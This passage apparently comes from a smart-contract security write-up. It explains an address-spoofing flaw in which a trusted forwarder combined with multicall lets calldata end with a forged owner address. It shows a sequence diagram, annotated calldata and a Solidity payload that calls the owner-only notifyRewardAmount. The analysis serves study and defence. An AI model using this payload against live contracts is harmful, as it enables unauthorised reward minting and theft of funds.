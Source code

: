 ```mermaid

sequenceDiagram
    Actor U as 0x123
    participant F as Forwarder
    participant S as Staking
    U-)F: execute(req, signature)
    F-)S: req.to.call{...}(abi.encodePacked(req.data, req.from))
    rect rgb(140, 140, 140)
    S-)S: multicall(bytes[])
    S-)S: target.delegatecall(abi.encodeWithSelector(selector, param))
    Note over S,S: selector = 0x3c6b16ab<br/> param = 100_000_000 * 10 ** 18
    S--)S: invokes `notifyRewardAmount(uint256)`
    S-)S: _msgSender() call in onlyOwner modifier
    Note over S,S: msg.sender = forwarder<br/>sender = last 20 bytes of calldata (doesn't include req.from)
    end
    S--)F: (success, returndata)
    F--)U: (success, returndata)
```

Why isn't `req.from` present in the `calldata` anymore during the `_msgSender()` call? This is what is passed in the `CALL` invocation:

```

  0xac9650d8                                                        - function signature of `multicall(bytes[])`
  0000000000000000000000000000000000000000000000000000000000000020  - offset (bytes index) at which the bytes array start
  0000000000000000000000000000000000000000000000000000000000000001  - the length of the bytes array
  0000000000000000000000000000000000000000000000000000000000000020  - offset (bytes index) at which the 1st byte array element start
  0000000000000000000000000000000000000000000000000000000000000024  - length of data to read
  3c6b16ab00000000000000000000000000000000000000000052b7d2dcc80cd2  - actual data
  e400000000000000000000000000000000000000000000000000000000000000  - right padded with 0s to make result a multiple of 32 bytes
  0432d269d374df8026fd8d4d0842437fb64f9a23                          - address of req.from (ignored)

```

Observe that although the address of `req.from` is still present, the actual data read by the `multicall` function is only `0x3c6b16ab00000000000000000000000000000000000000000052b7d2dcc80cd2e4000000` as only 36 bytes should be read based on the encoding, which is why any extra arguments appended at the end would be ignored by the EVM. `DELEGATECALL` is then called where target is the `Staking` contract, calling the `notifyRewardAmount(uint256)` function. The `msg.sender` remains as the forwarder address and the last 20 bytes would be extracted to identify the "sender".

With this information, we can simply update our payload to include the address of the `owner` set in the `Staking` contract at the end and we can spoof function calls as the owner:

```solidity

  bytes memory payload = abi.encodePacked(
      abi.encodeWithSelector(staking.notifyRewardAmount.selector, 100_000_000 * 10 ** 18), address(owner)
  );

```
